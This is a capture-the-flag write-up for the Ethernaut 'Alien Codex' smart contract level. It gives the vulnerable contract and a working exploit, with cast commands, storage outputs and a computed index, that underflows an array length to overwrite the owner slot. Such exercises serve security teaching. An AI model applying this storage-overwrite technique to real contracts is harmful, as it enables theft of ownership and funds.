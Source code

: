 ## Alien Codex Level Outline

**Difficulty : 7/10**

You've uncovered an Alien contract. Claim ownership to complete the level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xda5b3Fb76C78b6EdEE6BE8F11a1c31EcfB02b272)

## Solution

Inherited contracts share the same storage slot with their derived contracts. 

Meaning we need to modify storage slot 0 to complete this level as that is where the variable `owner` will live.

Remember that dynamic arrays are not stored contiguously in storage. Instead their intended **storage slot contains the size of the dynamic array** and to find the memory address where the dynamic array's element are stored, we have to calculate a keccak256 hash.

```
memory_address = keccak256(p)

where
- - -  
memory_address  : address of starting element of dynamic array
p               : storage position of dynamic array
```
> in our case, p = 1 as `address owner` and `bool contact` sharing storage slot 0 as both variables are less than 32bytes

### Walkthrough
##### 1. Call `make_contact()` so that we can satisfy the `contacted()` modifier
```console
cast send $LEVEL_ADDRESS "make_contact()" --private-key $PRIVATE_KEY
```

##### 2. Let's inspect storage and confirm that we need to target storage slot 1
```console
cast storage $LEVEL_ADDRESS 0
```
output :
```
0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272
```

let's also find the current contract owner
```console
cast call $LEVEL_ADDRESS "owner()"
```
output :
```
0x000000000000000000000000da5b3fb76c78b6edee6be8f11a1c31ecfb02b272
```

we can see that the variable `address owner` and `bool contact` have been packed into storage slot 0. We want to attack this storage slot to change the owner variable value to our address.

this means that stroage slot 1 will hold the length of our dynamic array `codex`

```console
cast storage $LEVEL_ADDRESS 1
```
output
```
0x0000000000000000000000000000000000000000000000000000000000000000
```
> this is correct as codex initially starts with a size of 0

##### 3. Forcing a underflow
if we call the `retract()` method, the length of `codex` will underflow resulting in the array having a length of 2^256, which is the same size as the total contract storage as the EVM reserves 2^256 slots of 32 bytes.

```console
cast send $LEVEL_ADDRESS "retract()" --private-key $PRIVATE_KEY
```

let's confirm that the underflow was succesful by checking storage slot 1 (which will hold the length of the array)
```console
cast storage $LEVEL_ADDRESS 1
```
output :
```
0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
```


##### 3. Calculating attack parameters to modify storage slot 0
now that the length of `codex` is equal to the size of the contract storage, we can use the function `revise(uint,bytes32)` to modify any storage slot.

we know that the `owner` variable is located at storage slot 0, we have to provide an index to `revise(uint,bytes32)` such that it will overflow the maximal length of `codex` and point to storage slot 0.

calculation of index **revise_index** to cause an overflow to storage slot 0

```
codex_memory_address = keccak256(bytes32(1))

revise_index = 2^256 - codex_memory_address
```

to quickly calculate **revise_index**, open remix and run the following contract

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.4.8;

contract Calc {
    uint256 public revise_index;

    function getIndex() public {
        bytes32 codex_index = keccak256(bytes32(uint256(1)));
        revise_index = 2 ** 256 - 1 - uint(codex_index) + 1;
    }
}
```
> credit to [Igor Yalovoy](https://ylv.io/ethernaut-alien-codex-solution/) for the script

returns a value of :

```
revise_index=35707666377435648211887908874984608119992236509074197713628505308453184860938
```

when we call `revise(uint,bytes32)` with the value above as the index, it will overflow `codex` and point to storage slot 0. We can prove this quickly by adding the memory address of 'codex' with `revise_index` together

```
// codex memory address
0x4EF1D2AD89EDF8C4D91132028E8195CDF30BB4B5053D4F8CD260341D4805F30A 

// revise_index (in hex)
0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6

// adding them together yields 
0x10000000000000000000000000000000000000000000000000000000000000000

// which overflows to 
0x0000000000000000000000000000000000000000000000000000000000000000
```
> bonus : we can target any address below `codex's memory address` by adding the index of the storage slot that we want to attack to `revise_index` e.g. to attack storage slot 3, we would calculate `revise_index = revise_index + 3`

##### 4. Sending transaction to complete level

we first need to **left pad** our EOA address because the address data type requires 20bytes but `revise` requires us to send it 32bytes
```
// example EOA
0x8aFF5cA996F77487a4f04F1ce905Bf3d27455580

// left-padding EOA with 12 bytes
0x0000000000000000000000008aFF5cA996F77487a4f04F1ce905Bf3d27455580
```
> one bytes 2^8 bits which is represented using 2 hex digits. so we left pad 12*2 zeros

```console
cast send $LEVEL_ADDRESS "revise(uint,bytes32)" 35707666377435648211887908874984608119992236509074197713628505308453184860938 \
$LEFT_PADDED_EOA --private-key $PRIVATE_KEY
```

## Further Reading
[Write up to a similar problem](https://weka.medium.com/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)

### [:arrow_left: Back To Main Menu](../)
